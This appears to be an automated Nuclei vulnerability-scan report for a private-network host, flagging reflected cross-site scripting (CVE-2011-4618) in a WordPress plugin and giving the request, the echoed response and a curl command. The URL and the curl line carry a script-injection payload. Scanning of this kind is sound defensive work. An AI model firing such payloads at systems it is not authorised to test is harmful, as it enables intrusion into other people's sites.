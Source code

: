 ### Advanced Text Widget < 2.0.2 - Reflected Cross-Site Scripting (CVE-2011-4618) found on http://192.168.198.179:8080/
---
**Details**: **CVE-2011-4618**  matched at http://192.168.198.179:8080/

**Protocol**: HTTP

**Full URL**: http://192.168.198.179:8080/wp-content/plugins/advanced-text-widget/advancedtext.php?page=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E

**Timestamp**: Wed Jun 8 20:22:01 +0100 BST 2022

**Template Information**

| Key | Value |
|---|---|
| Name | Advanced Text Widget < 2.0.2 - Reflected Cross-Site Scripting |
| Authors | daffainfo |
| Tags | cve, cve2011, wordpress, xss, wp-plugin |
| Severity | medium |
| Description | A cross-site scripting (XSS) vulnerability in advancedtext.php in Advanced Text Widget plugin before 2.0.2 for WordPress allows remote attackers to inject arbitrary web script or HTML via the page parameter. |
| Remediation | Upgrade to a supported version. |
| CVE-ID | [CVE-2011-4618](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2011-4618) |
| CVSS-Score | 0.00 |

**Request**
```http
GET /wp-content/plugins/advanced-text-widget/advancedtext.php?page=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E HTTP/1.1
Host: 192.168.198.179:8080
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686 on x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/53.0.2820.59 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip


```

**Response**
```http
HTTP/1.0 200 OK
Connection: close
Content-Length: 252
Content-Type: text/html

<HTML><HEAD><TITLE>File Not Found</TITLE></HEAD><BODY><H1>Cannot find this file.</H1>The requested file: <B>/wp-content/plugins/advanced-text-widget/advancedtext.php?page=</script><script>alert(document.domain)</script></B> was not found.</BODY></HTML>
```

References: 
- https://nvd.nist.gov/vuln/detail/cve-2011-4618
- http://www.securityfocus.com/archive/1/520589
- http://wordpress.org/support/topic/wordpress-advanced-text-widget-plugin-cross-site-scripting-vulnerabilities
- http://archives.neohapsis.com/archives/bugtraq/2012-04/0119.html

**CURL Command**
```
curl -X 'GET' -d '' -H 'Accept: */*' -H 'Accept-Language: en' -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686 on x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/53.0.2820.59 Safari/537.36' 'http://192.168.198.179:8080/wp-content/plugins/advanced-text-widget/advancedtext.php?page=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E'
```
---
Generated by [Nuclei 2.7.1](https://github.com/projectdiscovery/nuclei)
